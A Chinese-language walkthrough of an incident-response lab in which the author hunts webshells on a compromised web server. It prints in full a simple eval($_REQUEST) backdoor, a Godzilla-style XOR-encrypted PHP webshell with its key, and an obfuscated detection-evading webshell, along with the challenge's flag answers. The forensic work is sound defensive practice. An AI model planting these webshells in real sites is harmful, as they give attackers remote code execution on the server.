

# 第一章 应急响应-webshell查杀

> https://xj.edisec.net/challenges/25
> 

1.黑客`webshell`里面的flag flag{xxxxx-xxxx-xxxx-xxxx-xxxx}

2.黑客使用的什么工具的`shell github`地址的md5 flag{md5}

3.黑客隐藏shell的完整路径的md5 flag{md5} 注 : /xxx/xxx/xxx/xxx/xxx.xxx

4.黑客免杀马完整路径 md5 flag{md5}

## Webshell

使用`find`命令查找`.php`后缀文件，并且内容带有`eval`函数的文件

> PHP: `eval(), system(), exec(), shell_exec(), passthru(), assert(), base64_decode()`
ASP: `Execute(), Eval(), CreateObject()`
JSP: `Runtime.getRuntime().exec()`
> 

```bash
root@ip-10-0-10-4:/var/www/html/admin/template# find /var/www -name *.php* | xargs grep -r 'eval('
/var/www/html/include/gz.php:           eval($payload);
/var/www/html/include/Db/.Mysqli.php:           eval($payload);
/var/www/html/shell.php:<?php phpinfo();@eval($_REQUEST[1]);?>
```

第三个毫无疑问是`webshell` ，不过没有`flag`

```bash
root@ip-10-0-10-4:/var/www/html# cat shell.php
<?php phpinfo();@eval($_REQUEST[1]);?>root@ip-10-0-10-4:/var/www/html#
```

再看`gz.php` 存在`flag` `flag{027ccd04-5065-48b6-a32d-77c704a5e26d}` 

```bash
root@ip-10-0-10-4:/var/www/html# cat include/gz.php
<?php
@session_start();
@set_time_limit(0);
@error_reporting(0);
function encode($D,$K){
    for($i=0;$i<strlen($D);$i++) {
        $c = $K[$i+1&15];
        $D[$i] = $D[$i]^$c;
    }
    return $D;
}
//027ccd04-5065-48b6-a32d-77c704a5e26d
$payloadName='payload';
$key='3c6e0b8a9c15224a';
$data=file_get_contents("php://input");
if ($data!==false){
    $data=encode($data,$key);
    if (isset($_SESSION[$payloadName])){
        $payload=encode($_SESSION[$payloadName],$key);
        if (strpos($payload,"getBasicsInfo")===false){
            $payload=encode($payload,$key);
        }
                eval($payload);
        echo encode(@run($data),$key);
    }else{
        if (strpos($data,"getBasicsInfo")!==false){
            $_SESSION[$payloadName]=encode($data,$key);
        }
    }
}
```

> 这段代码的目的是接收通过 `php://input` 流发送的数据，对其进行编码，并根据会话变量中的内容执行特定的 PHP 代码。这通常用于隐藏恶意代码或后门，使得攻击者可以通过特定的请求触发执行。
> 

根据`shell`内容去搜索`github` （也根据`webshell`的特征）



对比之后是一样的，这就是黑客使用的`webshell` 


看分类的得知是哥斯拉的`webshell` ，我们找到哥斯拉的`github` ： https://github.com/BeichenDream/Godzilla 将链接其进行`md5`加密即可

```bash
root@ip-10-0-10-4:~# echo -n "https://github.com/BeichenDream/Godzilla" | md5sum
39392de3218c333f794befef07ac9257  -
```

## 隐藏Webshell

查找隐藏`shell`

```bash
root@ip-10-0-10-4:/var/www/html/include# find / -name *.php | xargs grep -r "exec("
Model/Spider.php:                       $content = curl_exec($ch);
Db/Sqlite.php:                  $query = sqlite_exec($this->conn,$sql,$error);

root@ip-10-0-10-4:/var/www/html/include/Db# ls -al
total 36
drwxr-xr-x 2 www-data www-data 4096 Aug  2  2023 .
drwxr-xr-x 4 www-data www-data 4096 Aug  2  2023 ..
-rw-r--r-- 1 www-data www-data  768 Aug  2  2023 .Mysqli.php
-rwxr-xr-x 1 www-data www-data 4752 Mar 14  2021 Mysqli.php
-rwxr-xr-x 1 www-data www-data 4921 Mar 14  2021 Mysql.php
-rwxr-xr-x 1 www-data www-data 4433 Mar 14  2021 Sqlite.php
root@ip-10-0-10-4:/var/www/html/include/Db# cat .Mysqli.php
<?php
@session_start();
@set_time_limit(0);
@error_reporting(0);
function encode($D,$K){
    for($i=0;$i<strlen($D);$i++) {
        $c = $K[$i+1&15];
        $D[$i] = $D[$i]^$c;
    }
    return $D;
}
$payloadName='payload';
$key='3c6e0b8a9c15224a';
$data=file_get_contents("php://input");
if ($data!==false){
    $data=encode($data,$key);
    if (isset($_SESSION[$payloadName])){
        $payload=encode($_SESSION[$payloadName],$key);
        if (strpos($payload,"getBasicsInfo")===false){
            $payload=encode($payload,$key);
        }
                eval($payload);
        echo encode(@run($data),$key);
    }else{
        if (strpos($data,"getBasicsInfo")!==false){
            $_SESSION[$payloadName]=encode($data,$key);
        }
    }
}
```

隐藏`shell`是`.Mysqli.php`

那么完整路径就是:`/var/www/html/include/Db/.Mysqli.php`

```bash
root@ip-10-0-10-4:~# echo -n "/var/www/html/include/Db/.Mysqli.php" | md5sum
aebac0e58cd6c5fad1695ee4d1ac1919  -
```

## 免杀Webshell

黑客还放了一个免杀马，免杀马已经不能被静态检查到了，因为在免杀的过程中将`websell`特征都给去掉了，那么我们可以查看日志文件中存在什么可疑的记录

服务器当前用的是`apache`的服务器，我们找到日志分析，其中几条传进来的尝试很可疑，并且经过`base64`加密`fuc=ERsDHgEUC1hI&func2=ser`


`top.php` 源码

```bash
root@ip-10-0-10-4:/var/www/html/wap# cat top.php
<?php

$key = "password";

//ERsDHgEUC1hI
$fun = base64_decode($_GET['func']);
for($i=0;$i<strlen($fun);$i++){
    $fun[$i] = $fun[$i]^$key[$i+1&7];
}
$a = "a";
$s = "s";
$c=$a.$s.$_GET["func2"];
$c($fun);root@ip-10-0-10-4:/var/www/html/wap#
```

生成`flag`

```bash
$c($fun);root@ip-10-0-10-4:/var/www/html/wap# echo -n "/var/www/html/wap/top.php" | md5sum
eeff2eabfd9b7a6d26fc1a53d3f7d1de  -
```